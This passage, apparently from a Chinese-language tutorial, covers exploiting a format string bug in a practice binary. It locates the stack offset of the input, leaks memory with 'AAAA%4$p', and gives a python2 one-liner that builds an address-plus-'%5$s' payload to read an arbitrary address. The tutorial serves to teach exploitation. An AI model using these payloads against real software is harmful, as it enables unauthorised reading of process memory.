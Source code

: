 由 0x41414141 处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第 5 个参数，但是是格式化字符串的第 4 个参数。我们可以来测试一下

<center><img src="./img/print_input.PNG"  ></center>

### (2). 根据偏移查看输出内容

0x41414141 是输出的第 4 个字符，所以我们使用 %4$p 即可读出 0x41414141 处的内容，
```bash
$ ./leakmemory
AAAA%4$p
00000001.22222222.ffffffff.AAAA%4$p
AAAA0x41414141
```

---

当然，这可能是一个不合法的地址。我们把 AAAA 换成我们需要的合法的地址即可查看对应地址的内容。

















```bash
python2 -c 'print("AAA" + "\00\x10\xd3\xff\xff"+".%5$s")' > text
```

<center><img src="./img/get_address_context.PNG"  ></center>

---